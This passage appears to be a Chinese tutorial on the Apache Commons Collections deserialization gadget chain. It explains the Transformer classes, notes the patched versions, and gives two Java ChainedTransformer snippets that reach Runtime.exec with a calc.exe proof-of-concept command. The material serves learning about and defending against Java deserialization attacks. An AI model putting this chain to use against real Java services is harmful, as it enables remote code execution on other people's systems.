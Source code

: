 transform方法会忽略传入参数，不会改变当前对象，所以我们输出的还是：

```
class java.lang.Runtime
java.lang.Class
```



###### InvokerTransformer

通过反射调用传入对象的方法（public属性）

最常用的构造方法有三个参数：

1、methodname方法

2、class类型

3、方法参数

例如：methodName:“exec”,new Class[]{String.class},new Object[]{cmd}

```
commons-collections从3.2.2版本开始尝试序列化或反序列化此类都会抛出UnsupportedOperationException异常，这个举措是为了防止远程代码执行；如果允许序列化该类就要在运行时添加属性-Dproperty=true
commons-collections4从4.1之后直接禁止被用于反序列化
```

它的Transform方法就是首先接受一个对象（ChainedTransformer），然后获取该对象的名称（ConstantTransformer），最后通过InvokerTransformer传入三个参数。

命令执行

```java
// 方法一：常规套三层 InvokerTransformer
ChainedTransformer chain = new ChainedTransformer(
    new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer(
            "getMethod",
            new Class[]{String.class, Class[].class},
            new Object[]{"getRuntime", null}
        ),
        new InvokerTransformer(
            "invoke",
            new Class[]{Object.class, Object[].class},
            new Object[]{null, new Object[0]}
        ),
        new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"calc.exe"}
        )
    }
);
chain.transform("any"); // 任意传入都可
// 法二：传入 Runtime 实例
ChainedTransformer chain = new ChainedTransformer(
    new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"calc.exe"}
        )
    }
);
chain.transform("any"); // 任意传入都可
```
